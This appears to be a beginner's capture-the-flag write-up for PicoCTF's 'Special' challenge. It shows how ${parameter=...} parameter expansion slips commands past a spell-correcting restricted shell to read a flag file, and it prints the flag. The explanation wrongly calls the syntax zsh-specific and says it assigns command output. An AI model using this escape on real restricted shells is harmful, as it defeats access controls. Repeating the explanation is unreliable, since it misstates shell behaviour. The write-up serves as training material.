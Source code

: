 ```yaml
---
title: "Special from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# Special from PicoCTF
[page](https://play.picoctf.org/practice/challenge/377?category=5&difficulty=2&page=1&search=&solved=0)
>Description
>Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 56363 ctf-player@saturn.picoctf.net`The password is `d8819d45`

>Hints
>Experiment with different shell syntax

In this SSH environment i can't use normal commands like `nano cd ls` etc. 
I'm not that knowledgeable so i had to search up the answer and i came across this:
```
${parameter=<command>}
```
The syntax `${parameter=ls}` is specific to the **Z Shell (zsh)** and can be a bit misleading if taken out of context. This syntax is used for parameter expansion with assignment, where the `parameter` is assigned the output of the `ls` command if it is not already set.
So this means that `parameter`is not assigned anywhere so it takes `<command>`as an argument and `$` calls it and it shows the answers.
```
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh}
${parameter=cat blargh/flag.txt} 
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}
```
Here we go The flag is:
**picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}**
